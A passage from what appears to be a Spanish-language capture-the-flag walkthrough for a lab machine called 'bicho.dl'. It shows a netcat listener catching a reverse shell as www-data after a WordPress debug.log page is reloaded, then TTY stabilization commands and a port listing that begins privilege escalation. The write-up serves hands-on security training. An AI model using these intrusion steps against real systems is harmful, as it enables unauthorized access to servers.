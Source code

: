 ```shell
nc -lvnp <PORT>
```

Cuando la enviemos, tendremos que recargar la siguiente pagina:

```
URL = http://bicho.dl/wp-content/debug.log
```

Si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 56190
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Veremos que hemos obtenido acceso con el usuario `www-data` por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user app

Si listamos los puertos del servidor veremos lo siguiente:

```shell
netstat -tuln
```

Info:

```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN
```
